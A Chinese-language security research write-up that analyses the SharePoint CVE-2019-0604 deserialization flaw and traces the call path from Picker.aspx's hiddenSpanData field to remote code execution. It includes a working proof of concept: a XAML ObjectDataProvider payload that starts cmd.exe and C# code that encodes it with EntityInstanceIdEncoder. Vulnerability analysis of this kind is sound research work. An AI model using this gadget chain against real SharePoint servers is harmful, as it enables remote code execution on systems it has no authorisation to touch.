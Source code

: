 # SharePoint CVE-2019-0604

0604是一个xmlserializer的type可控造成的RCE。

# 产生原因

`Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.DecodeEntityInstanceId(string encodedId)`，在ZDI的分析中给出了一张gif动态图很好的描述了type是由encodedId控制的。

![img](SharePoint-CVE-2019-0604.assets/DecodeEntityInstanceId.gif)

分析这个方法在哪些地方被调用

![image-20210531093517380](SharePoint-CVE-2019-0604.assets/image-20210531093517380.png)

三个类分别对应有aspx文件

- Microsoft.SharePoint.ApplicationPages.ActionRedirectPage
`/_layouts/15/ActionRedirect.aspx`

- Microsoft.SharePoint.ApplicationPages.DownloadExternalData
  `/_layouts/15/downloadexternaldata.aspx`
  
- Microsoft.SharePoint.Portal.WebControls.ProfileRedirect
`/_layouts/15/TenantProfileAdmin/profileredirect.aspx`

对应的参数也都是从request传入，但是因为get传参，通过HexEncode之后会超出http协议的长度限制，所以漏洞发现者的目光转向了		`Microsoft.SharePoint.WebControls.ItemPicker.ValidateEntity(PickerEntity)`

![image-20210531094245308](SharePoint-CVE-2019-0604.assets/image-20210531094245308.png)

传入DecodeEntityInstanceId()的参数来自于pe.Key，而ValidateEntity(PickerEntity pe)方法在				Microsoft.SharePoint.WebControls.EntityEditor.Validate() 被调用

![image-20210531094622627](SharePoint-CVE-2019-0604.assets/image-20210531094622627.png)

可见pe来自于this.Entities属性，这个属性又取决于自身的m_listOrder字段

![image-20210531094714349](SharePoint-CVE-2019-0604.assets/image-20210531094714349.png)

m_listOrder在Validate()被自身`this.m_listOrder = this.m_listOrderTemp`覆盖，最终由LoadPostData()赋值

![image-20210531095245856](SharePoint-CVE-2019-0604.assets/image-20210531095245856.png)

在LoadPostData中先this.ParseSpanData(text)解析参数，赋值m_listOrderTemp，然后进行this.Validate()反序列化

![image-20210531095345175](SharePoint-CVE-2019-0604.assets/image-20210531095345175.png)

而EntityEditor类的LoadPostData的方法是对IPostBackDataHandler接口的实现，在POST时会自动调用LoadPostData方法。再来看ParseSpanData()，在LoadPostData中传入`string text = EntityEditor.StrEatUpNbsp(this.HiddenSpanData.Value);`HiddenSpanData的值。

![image-20210531102514308](SharePoint-CVE-2019-0604.assets/image-20210531102514308.png)

传入的值为spans，经过分割为数组最后赋值为新的pickerEntity3，key为text5，而text5就是来自于spans。那么pe.Key就可控了。



EntityEditor类有一个继承类EntityEditorWithPicker，该类还有继承类ItemPicker

![image-20210531103013909](SharePoint-CVE-2019-0604.assets/image-20210531103013909.png)

接下来寻找ItemPicker的web控件。作者找到了 /_layouts/15/Picker.aspx，位于Microsoft.SharePoint.ApplicationPages.Picker

![image-20210531103538729](SharePoint-CVE-2019-0604.assets/image-20210531103538729.png)

接收一个PickerDialogType的参数来实例化PickerDialog控件。这里可以用下面两个类

- Microsoft.SharePoint.WebControls.ItemPickerDialog
- Microsoft.SharePoint.Portal.WebControls.ItemPickerDialog

因为这两个类的构造函数中都用到了ItemPicker

![image-20210531104424259](SharePoint-CVE-2019-0604.assets/image-20210531104424259.png)

并且表单中有hiddenSpanData

![image-20210531104533214](SharePoint-CVE-2019-0604.assets/image-20210531104533214.png)

所以这里可以RCE了。

# PoC构造

把`Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.DecodeEntityInstanceId(string encodedId)`所在的dll拷出来放到vs中引用，然后代码如下

```xml
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:System="clr-namespace:System;assembly=mscorlib"
xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <System:String>cmd.exe</System:String>
            <System:String>/c calc.exe</System:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

然后

```csharp
using System;
using System.Data.Services.Internal;
using System.IO;
using System.Text;
using System.Windows.Data;
using System.Windows.Markup;
using System.Xml.Serialization;

namespace test
{
    class Program
    {
        static void Main(string[] args)
        {
            object[] objs = new object[1];
            objs[0] = Payload("1.xml");
            MemoryStream memoryStream = new MemoryStream();
            TextWriter writer = new StreamWriter(memoryStream);
            XmlSerializer xmlSerializer = new XmlSerializer(typeof(ExpandedWrapper<XamlReader, ObjectDataProvider>));
            xmlSerializer.Serialize(writer, objs[0]);
            string result = Encoding.UTF8.GetString(memoryStream.ToArray());
            Console.WriteLine(result);
            string payload = Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.EncodeEntityInstanceId(objs);
            Console.WriteLine(payload);
            Console.ReadKey();
        }
        public static object Payload(string filepath)
        {
            ExpandedWrapper<XamlReader, ObjectDataProvider> eobj = new ExpandedWrapper<XamlReader, ObjectDataProvider>();
            eobj.ProjectedProperty0 = new ObjectDataProvider();
            eobj.ProjectedProperty0.ObjectInstance = new XamlReader();
            eobj.ProjectedProperty0.MethodName = "Parse";
            eobj.ProjectedProperty0.MethodParameters.Add(File.ReadAllText(filepath));
            return eobj;
        }
    }
}
```

用ExpandedWrapper包装XamlReader和ObjectDataProvider，然后用EncodeEntityInstanceId编码，通过hiddenSpanData发送出去

![image-20210531105615216](SharePoint-CVE-2019-0604.assets/image-20210531105615216.png)

然后这不就来了吗

![image-20210531105647050](SharePoint-CVE-2019-0604.assets/image-20210531105647050.png)

# 正向捋一捋流程

1. Picker.aspx接收参数实例化PickerDialog控件。
2. PickerDialog有一个子类：ItemPickerDialog，其构造函数用到了ItemPicker
3. ItemPicker继承自EntityEditorWithPicker，EntityEditorWithPicker又继承自EntityEditor
4. EntityEditor实现IPostBackDataHandler接口LoadPostData()
5. 在LoadPostData中ParseSpanData解析hiddenSpanData，赋值m_listOrderTemp控制pe.Key
6. 然后进入Validate，循环遍历m_listOrderTemp强转PickerEntity进入Microsoft.SharePoint.Portal.WebControls.ItemPicker.ValidateEntity(PickerEntity)
7. ValidateEntity将pe.Key传入DecodeEntityInstanceId
8. DecodeEntityInstanceId从pe.Key拿到type，type可控导致反序列化RCE

# ysoserial.net中的bug

使用yso生成的payload并不起作用，本地复现报错xaml格式问题，发现是因为在他的xaml中多写了两个大括号。已经给作者提了pr https://github.com/pwntester/ysoserial.net/pull/107

